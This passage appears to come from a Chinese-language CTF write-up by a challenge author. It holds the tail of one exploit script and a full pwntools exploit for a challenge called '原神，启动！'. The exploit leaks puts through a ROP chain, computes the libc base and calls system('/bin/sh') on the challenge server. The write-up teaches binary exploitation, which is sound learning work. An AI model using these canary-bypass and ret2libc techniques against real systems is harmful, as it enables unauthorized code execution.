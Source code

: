 ```python
print("can2: ",can)
can = can.decode()
can = can.split("=")
print("can: ",can)
for i in range(4):
 can[i] = int(can[i],16)

payload=b'a'*4*7 
for i in range(4):
 payload+=p32(can[i])
payload += p32(0) + p32(0x80485E0) + b'a'*4*3 + p32(0x80485E0)
print("payload:" ,payload)
p.send(payload)
#pause()
print(p.interactive())
```

### 原神，启动！

这题是给外校的非新生的大佬写的(事实证明大家不喜欢看汇编)

题目给了一个任意写，但是要注意的是，在第二个login函数中，我恢复了你的retaddr以及canary，这里需要看汇编看的更清楚一点，其他的很简单了

此外，在dress函数中：考虑到函数返回时只会修改寄存器，并不会清空栈，也就意味着我在上个函数布置的栈这个函数还能用，所以我们上个函数正常rop，虽然返回地址被改了，但是我这个函数再改回来就行了，刚好八字节可以修改返回地址

```python
from pwn import*
from time import*
#p=process('./ys')
#sleep(5)
p=remote('101.42.48.14',8094)
elf=ELF('./ys')
libc=ELF('./libc-2.23.so')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
pop_rdi=0x4009b3
main=0x4008f3
p.recvuntil(':\n')
p.sendline(str(10086))
p.recvuntil(':\n')
p.send(b'a'*18)
p.recvuntil(':\n')
payload=b'a'*0x30+p64(0)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.send(payload)
p.recvuntil('?\n')
p.sendline(str(48+4+4))
p.recvuntil('?\n')
p.send(p64(pop_rdi))
puts_add=u64(p.recv(6).ljust(8,b'\x00'))
print(hex(puts_add))
libc_base=puts_add-libc.sym['puts']
print(hex(libc_base))
system=libc_base+libc.sym['system']
print(hex(system))
binsh=libc_base+libc.search(b'/bin/sh\x00').next()
print(hex(binsh))
p.recvuntil(':\n')
p.sendline(str(10086))
p.recvuntil(':\n')
p.send(b'a'*18)
p.recvuntil(':\n')
payload=b'a'*0x30+p64(0)+p64(pop_rdi)+p64(binsh)+p64(system)
p.send(payload)
p.recvuntil('?\n')
```